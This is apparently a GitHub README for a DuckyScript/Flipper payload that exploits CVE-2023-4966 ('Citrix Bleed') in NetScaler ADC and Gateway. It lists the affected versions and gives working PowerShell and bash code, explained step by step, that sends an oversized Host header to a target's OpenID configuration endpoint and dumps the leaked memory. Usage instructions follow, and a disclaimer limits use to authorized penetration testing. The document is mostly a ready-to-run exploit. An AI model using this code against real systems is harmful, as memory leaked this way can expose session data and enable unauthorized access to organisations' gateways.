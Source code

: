 # Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966

This payload sends an HTTP request to a remote server using the `curl` command. If the request succeeds, it means the exploit was successful. Conversely, if the request fails, it indicates that the target has resisted the attack.

This payload is a Proof of Concept (POC) based on DuckyScript and is intended for use only in authorized penetration testing. CVE-2023-4966 [[1](#sources)] has been resolved, and I have decided to release this payload only now to minimize the risk of it being used inappropriately. Please use this payload exclusively when you are fully aware of what you are doing and have obtained explicit authorization from the target.

**Category**: incident-response

## Index

- [Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966](#exploit-citrix-netscaler-adc-and-gateway-through-cve-2023-4966)
	- [CVE-2023-4966](#cve-2023-4966)
		- [Summary](#summary)
		- [Impacted Products](#impacted-products)
  - [Settings](#settings)
	- [DuckyScript Extensions Used](#duckyScript-extensions-used)
	- [Payload Description Windows](#payload-description-windows)
	- [Payload Description Linux](#payload-description-linux)
  - [Script.sh](#script-sh)
	- [Sources](#sources)
	- [Credits](#credits)

## CVE-2023-4966

Multiple vulnerabilities have been discovered in NetScaler ADC (formerly Citrix ADC) and NetScaler Gateway (formerly Citrix Gateway).

### Summary

NetScaler ADC and NetScaler Gateway contain unauthenticated buffer-related vulnerabilities mentioned below 

### Impacted Products

The following supported versions of NetScaler ADC and NetScaler Gateway are affected by the vulnerabilities: 

    - NetScaler ADC and NetScaler Gateway 14.1 before 14.1-8.50
    - NetScaler ADC and NetScaler Gateway 13.1 before 13.1-49.15
    - NetScaler ADC and NetScaler Gateway 13.0 before 13.0-92.19
    - NetScaler ADC 13.1-FIPS before 13.1-37.164
    - NetScaler ADC 12.1-FIPS before 12.1-55.300
    - NetScaler ADC 12.1-NDcPP before 12.1-55.300

***Note**: NetScaler ADC and NetScaler Gateway version 12.1 is now End-of-Life (EOL) and is vulnerable.*

This bulletin only applies to customer-managed NetScaler ADC and NetScaler Gateway products. Customers using Citrix-managed cloud services or Citrix-managed Adaptive Authentication do not need to take any action.

![](./assets/1.png)

***Source**: The information was acquired from the official website of [support.citrix.com](#sources).*

## Settings

The sole configuration parameter that requires modification is the hostname, which represents the IP address (without protocol) of the target Citrix ADC / Gateway machine, such as 192.168.1.200. To configure this setting, you need to edit the "payload.txt" file to specify the desired address.

```DuckyScript
* REM Replace #HOSTNAME with your target, so put here the Citrix ADC / Gateway target, excluding the protocol (e.g. 192.168.1.200)
QUACK STRING $uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

## Payload Description Windows [_Go to the Windows version_](https://github.com/aleff-github/my-flipper-shits/tree/main/Windows/Incident_Response/Exploit_Citrix_NetScaler_ADC_and_Gateway_through_CVE-2023-4966)

In this line, a variable named `$header_value` is created, containing a string of 24576 'a' characters. This variable represents the value to be used in the HTTP header.

```powershell
$header_value = 'a' * 24576
```

Here, all newline characters ("\n") are removed from the string stored in `$header_value`. This is done to ensure that the string doesn't contain any line break characters.

```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.

```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```

Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.

## Sources

- [1] Official source of information acquisition: https://support.citrix.com/article/CTX579459/netscaler-adc-and-netscaler-gateway-security-bulletin-for-cve20234966-and-cve20234967
- [2] Detect Rady: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [3] Passive Windows Detect: https://github.com/hak5/usbrubberducky-payloads/blob/master/payloads/extensions/passive_windows_detect.txt
- [4] Red Hot Cyber post: https://www.redhotcyber.com/post/e-pubblico-lexploit-per-il-bug-critico-di-citrix-netscaler-adc-e-gateway-scopriamo-come-funziona/

## Credits

<h2 align="center"> Aleff</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>